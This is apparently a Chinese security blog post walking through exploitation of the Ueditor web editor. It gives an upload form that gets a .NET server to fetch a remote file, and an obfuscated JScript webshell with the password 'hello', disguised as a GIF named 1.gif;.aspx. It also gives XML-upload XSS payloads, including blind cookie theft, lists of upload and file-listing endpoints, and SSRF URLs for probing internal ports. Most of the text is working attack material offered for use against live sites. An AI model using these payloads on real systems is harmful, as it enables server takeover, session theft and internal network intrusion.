 # Ueditor 编辑器漏洞利用

#### oxo0 前言

一直比较懒好久没更新了，刚好最近公众号居然有500多人关注了，也有不少人取消了关注。下面更新一波 ueditor编辑器漏洞的利用吧，在挖掘SRC的时候也非常有用哦。如果可以请继续关注我们哦！



#### oxo1 .net Getshell

本地上传POC：

```
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form>
```

一句话木马：密码：hello

```
GIF89a
<script runat="server" language="JScript">
   function popup(str) {
       var q = "u";
       var w = "afe";
       var a = q + "ns" + w; var b= eval(str,a); return(b);
  }
</script>
<% popup(popup(System.Text.Encoding.GetEncoding(65001). GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJoZWxsbyJd")))); %>
```

远程部署一个Webshell，名称为：1.gif;.aspx

```
http://127.0.0.1/1.gif;.aspx
```

浏览POC、输入远程Webshell的地址

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tum387gj20qu056wew.jpg)

点击提交、运气好就可以得到一个webshell地址、得到地址还会有各种情况出现。（冰蝎的shell会报错、访问出错的时候、尝试换多几个shell看看）

![图片](https://mmbiz.qpic.cn/mmbiz_png/MZzibwD3j5oGo2ib7GtlVFjGycRQriascibmEO0ArgBicEicTQSRceTzec2G4OkTwia1UUzbKcIECkXNF8OujH2NKRfDQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

没报错、说明运气不错、成功得到webshell

```
默认路径：http://www.xxxx.com/ueditor/net/upload/image/20191022/6370735180294792151176942.aspx
```

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tuntyixj20u003w3ys.jpg)

菜刀/蚁剑连之

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tuqys1mj20u00973yx.jpg)

#### oxo2 Upload XSS

XML_XSS：

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>


盲打Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

```
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json
```

上传文件路径

```
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

上传图片、抓取数据包

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tumxzubj20u00cemyj.jpg)

修改URL、和上传的文件

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tuqqutdj20u00h7q5i.jpg)

浏览触发

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

列出已经上传的文件

```
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage
```



#### oxo3 SSRF

存在漏洞路径：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

存在就会抓取成功、也可以抓取外网的测试

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tuot46ij20u005n3z7.jpg)

端口不存在就会报错500

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15turjrz0j20u009idgs.jpg)

成功Burpsuite来探测端口、探测内网需要知道内网IP段

![图片](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15tuoe6gij20nc0ghjtv.jpg)

 



#### oxo4 参考

https://www.freebuf.com/vuls/181814.html

https://paper.seebug.org/606/